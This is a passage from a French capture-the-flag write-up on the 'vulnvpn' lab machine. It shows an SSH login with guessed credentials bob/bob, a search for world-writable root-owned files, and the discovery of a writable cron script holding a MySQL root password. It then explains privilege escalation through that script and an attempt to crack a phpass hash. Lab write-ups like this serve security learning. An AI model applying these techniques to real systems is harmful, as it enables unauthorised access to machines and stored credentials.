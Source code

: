 A tout hazard j'ai essayé de me connecter en SSH avec bob/bob... bingo !  

```plain
# ssh bob@10.99.99.1
The authenticity of host '10.99.99.1 (10.99.99.1)' can't be established.
ECDSA key fingerprint is ec:56:85:f2:5a:cc:64:2a:bb:a4:20:24:a5:6d:fd:1e.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.99.99.1' (ECDSA) to the list of known hosts.
bob@10.99.99.1's password: 
Welcome to Ubuntu 12.04.2 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Fri Sep 26 14:43:11 BST 2014

  System load:  0.29              Processes:           105
  Usage of /:   30.3% of 3.74GB   Users logged in:     0
  Memory usage: 28%               IP address for eth0: 192.168.0.10
  Swap usage:   0%                IP address for ppp0: 10.99.99.1

  Graph this data and manage this system at https://landscape.canonical.com/

bob@vulnvpn:~$ uname -a
Linux vulnvpn 3.2.0-29-generic-pae #46-Ubuntu SMP Fri Jul 27 17:25:43 UTC 2012 i686 i686 i386 GNU/Linux
bob@vulnvpn:~$ find / -type f -user root -perm -o+w 2> /dev/null  | grep -v /proc
/etc/cron.daily/wp-backup.sh
bob@vulnvpn:~$ ls -l /etc/cron.daily/wp-backup.sh
-rwxrw-rw- 1 root root 90 Feb  2  2013 /etc/cron.daily/wp-backup.sh
bob@vulnvpn:~$ cat /etc/cron.daily/wp-backup.sh
mysqldump --opt -Q -u root --password='password' wordpress | gzip > /tmp/wp-backup.sql.gz
bob@vulnvpn:~$ ls -l /tmp/wp-backup.sql.gz
-rw-r--r-- 1 root root 20 Sep 24 22:23 /tmp/wp-backup.sql.gz
```

Escalade de privilèges #1
-------------------------

En moins de temps qu'il n'en faut pour dire *"chez les papous il y a des papous pouned et des papous pas pouned"* j'ai trouvé un moyen de passer root.
Le script cron *wp-backup.sh* est world writable. Il suffit d'y placer ses commandes et de patienter (les tâches journalières sont exécutées tous les jours à 6h25 d'après /etc/crontab).  

L'export wordpress se révèle être vide (gzip d'un fichier de 0 octets) donc d'aucune utilité.  

Toutefois en nous connectant avec les identifiants MySQL récupérés on retrouve le hash *$P$BvxcqU.WcR9CEJrqTPXJdAJ6SSeWVE1* pour l'utilisateur admin.  

Les caractères *$P$* indiquent un format *phpass* (en fonction d'où on place la césure on peut marquer ou pas son aversion pour le langage PHP).  

J'ai tenté de casser le hash avec *HashCat* malheureusement je n'ai eu aucun résultat.  

gcc n'est pas présent sur la machine ce qui oblige à compiler en statique 32 bits les binaires dont on a besoin puis de les envoyer via scp.  
